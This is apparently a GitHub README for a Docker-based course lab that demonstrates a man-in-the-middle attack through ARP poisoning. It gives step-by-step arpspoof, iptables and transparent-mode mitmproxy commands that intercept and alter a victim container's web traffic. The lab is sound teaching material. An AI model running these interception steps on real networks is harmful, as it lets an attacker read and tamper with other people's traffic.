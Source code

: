 # 🚀 Man-in-the-Middle (MitM) Attack Practice using Docker

A simple and lightweight demo showcasing a **Man-in-the-Middle (MitM)** attack via **ARP poisoning** using Docker containers. This demonstration is designed for quick setup, requiring only Docker and `docker-compose`. Everything else is handled by the container configurations.

🔒 **Purpose:**  
This practical example have been created to demonestrate _Man-in-the-Middle (MitM) attacke using ARP poisoning_ as part of **ICT Risk Assessment** Course examination.

---

## 🛠 Tools Used
- **Docker**
- **docker-compose**
- **mitmproxy**
- **arpspoof**

---

## 📦 Environment Setup
The demo involves three Docker containers connected through a Docker bridge network named `mitm`:

1. **Bob**: Hosts an HTTP server serving files from the `bob_files` directory.  
2. **Alice**: Runs Firefox in a container. Access it from the host at [http://localhost:5800](http://localhost:5800).  
3. **Eve**: The attacker container, used via bash. It has the `eve_files` folder mounted as `/olicyber` inside the container. 

---

## 🔧 How to Run

### 1. Set Up the Environment
1. Install **Docker** and **docker-compose**.
2. Start the containers:
   ```bash
   docker-compose up -d

### 2. Verify Initial Setup

- Open **Alice's Firefox** at [http://localhost:5800](http://localhost:5800) and visit [http://bob/](http://bob/).  
  You should see the website served by Bob's HTTP server.  

- Verify Bob's MAC address from Alice's shell:
   ```bash
   docker exec -it alice /bin/sh
   ip neighbor
### 3. Discover IP Addresses

- On Eve's container, open two bash instances:
   ```bash
   docker exec -it eve /bin/bash

- Run the dig command to get Alice's and Bob's IP addresses:
    ```bash
   dig alice
   dig bob

### 4. Perform ARP Spoofing

In the two bash instances on Eve's container, run the following commands:
- **Instance 1**:
   ```bash
   arpspoof -t <alice_ip> <bob_ip>
- **Instance 2**:
   ```bash
   arpspoof -t <bob_ip> <alice_ip>
- Check on Alice's shell that Bob's IP now maps to Eve's MAC address:
  ```bash
   ip neighbor
  
## 🔥 Simulating the Attack

### Step 1: Forward Traffic Through Eve
- Run the `add_iptables_rule.sh` script on Eve to forward traffic:
   ```bash
   cd olicyber
   chmod +x add_iptables_rule.sh
   ./add_iptables_rule.sh
    

   
   ```bash
   /olicyber/add_iptables_rule.sh


- Verify that Alice's browser now shows an error when reloading the page. This occurs because packets are being intercepted by Eve but dropped since the proxy is inactive.

### Step 2: Activate the Proxy in Passive Mode

- Start the proxy in passive mode:
   ```bash
   mitmproxy -m transparent

- Reload the page in Alice's browser. The website will load normally, but Eve's mitmproxy instance will display the intercepted requests.

### Step 3: Modify the Webpage

- Restart the proxy with a custom script to alter the website content:
  
  ```bash
mitmproxy -m transparent -s /olicyber/proxy.py
  
- Reload the browser page, and you'll see the altered website content.

## 🛑 Shutting Down

- Remove the iptables rule:
   ```bash
   /olicyber/del_iptables_rule.sh
   
- Stop the ARP spoofing processes in Eve's bash instances.
